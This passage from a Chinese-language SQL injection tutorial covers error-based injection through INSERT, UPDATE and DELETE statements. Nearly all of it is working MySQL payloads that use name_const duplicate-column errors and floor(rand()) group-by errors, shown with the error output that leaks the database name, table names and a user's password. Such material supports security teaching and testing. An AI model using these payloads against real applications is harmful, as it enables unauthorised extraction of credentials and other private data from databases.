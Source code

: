 获取users表的数据：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT concat_ws(0x7e,id, username, password) FROM users limit 0,1),1),name_const(( SELECT concat_ws(0x7e,id, username, password) FROM users limit
0,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name '1~Jane~Eyre'

```

0x06 利用子查询注入
------------

* * *

原理与select查询时的显错注入一致。

Insert：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or'', 'Nervo');

```

![enter image description here](http://drops.javaweb.org/uploads/images/b03d78b661663739992332a6f2844ac1cc6d89a7.jpg)

update：

```
UPDATE users SET password='Nicky' or (SELECT 1 FROM(SELECT count(*),concat((SELECT(SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' WHERE id=2 and username='Nervo';

```

![enter image description here](http://drops.javaweb.org/uploads/images/b2cdcfdf1473abb6c1871d20e0da6e97792596d3.jpg)

delete：

```
DELETE FROM users WHERE id=1 or (SELECT 1 FROM(SELECT count(*),concat((SELECT(SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' ;

```

![enter image description here](http://drops.javaweb.org/uploads/images/aba39924d840cec54de48bfc33f01147caf99076.jpg)

提取数据：

获取newdb数据库表名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT distinct concat(0x7e,0x27,cast(table_name as char),0x27,0x7e) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '','Nervo');

```
